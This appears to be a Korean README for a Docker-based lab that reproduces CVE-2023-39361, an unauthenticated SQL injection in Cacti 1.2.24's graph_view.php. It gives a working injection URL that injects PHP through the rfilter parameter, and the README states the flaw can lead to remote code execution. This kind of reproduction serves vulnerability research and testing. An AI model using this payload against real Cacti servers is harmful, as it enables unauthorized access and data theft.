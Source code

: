 # CVE-2023-39361 - Cacti SQL Injection PoC

## 🔍 개요
이 저장소는 Cacti 1.2.24 버전의 `graph_view.php` 파일에서 발생하는 SQL Injection 취약점(CVE-2023-39361)을 재현하기 위한 PoC입니다. 이 취약점은 `rfilter` 파라미터가 부적절하게 필터링되며, 공격자가 임의의 SQL 쿼리를 삽입해 데이터베이스 정보를 유출할 수 있게 됩니다.

## ⚙️ 환경 구성
PoC는 Docker 및 Docker Compose를 사용하여 구성됩니다. 아래 명령어를 통해 재현 환경을 빠르게 구성할 수 있습니다.

```bash
docker compose up -d 
```

### 📁 주요 파일 설명
- `docker-compose.yml`: 웹 서버 및 MySQL 데이터베이스 컨테이너를 구성합니다.
- `entrypoint.sh`: Apache 서버를 실행하고 Cacti 초기 설정을 도와주는 스크립트입니다.

## 🧪 취약점 재현 방법

### 1. 브라우저로 접속
```
http://localhost:8080
```

Cacti 설치 페이지가 나타나며, DB 정보는 아래와 같이 설정되어 있습니다:
- DB Host: db
- DB User: cacti
- DB Password: cacti

![Login](2.png)
설치를 완료한 뒤 로그인 화면으로 이동합니다.

### 2. phpinfo 통한 원격 코드 실행 테스트 
```
http://localhost:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```
![Exploit 결과](1.png)

이 요청을 통해 내부 phpinfo 코드가 삽입되어 실행되며, 로그인 화면이 phpinfo 페이지처럼 변경되는 것을 확인할 수 있습니다.


## 🛡️ 영향 범위
- Cacti 1.2.24 이하 버전에서 영향을 받습니다.
- 인증 없이 익스플로잇 가능하며, SQL Injection을 통해 인증 우회 및 원격 코드 실행까지 가능합니다.

## 📚 참고
- https://nvd.nist.gov/vuln/detail/CVE-2023-39361
- https://github.com/vulhub/vulhub/tree/master/cacti/CVE-2023-39361

---


